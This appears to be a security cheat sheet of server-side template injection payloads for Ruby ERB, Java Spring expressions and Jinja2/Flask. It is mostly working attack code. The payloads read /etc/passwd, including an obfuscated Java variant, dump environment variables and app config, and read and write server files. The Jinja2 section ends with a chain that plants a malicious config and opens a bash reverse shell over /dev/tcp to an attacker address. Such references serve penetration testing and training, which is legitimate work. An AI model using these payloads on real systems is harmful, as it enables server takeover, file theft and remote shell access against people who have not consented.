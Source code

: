 # Templates Injections

Template injection allows an attacker to include template code into an existant (or not) template.

## Ruby
#### Basic injection
```python
<%= 7 * 7 %>
```

#### Retrieve /etc/passwd
```python
<%= File.open('/etc/passwd').read %>
```


## Java
#### Basic injection
```java
${{7*7}}
```

#### Retrieve the system’s environment variables.
```java
${T(java.lang.System).getenv()}
```

#### Retrieve /etc/passwd
```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

## Jinja2
[Official website](http://jinja.pocoo.org/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

#### Basic injection
```python
{{4*4}}[[5*5]]
```

Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on Flask application.
#### Template format
```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

#### Dump all used classes
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

#### Dump all config variables
```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

#### Read remote file
```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

#### Write into remote file
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

#### Remote Code Execution via reverse shell
Listen for connexion
```
nv -lnvp 8000
```
Inject this template
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Thanks to
 * [https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)
 * [Yahoo! RCE via Spring Engine SSTI](https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/)
 * [Ruby ERB Template injection - TrustedSec](https://www.trustedsec.com/2017/09/rubyerb-template-injection/)
#### Training
[https://w3challs.com/](https://w3challs.com/)
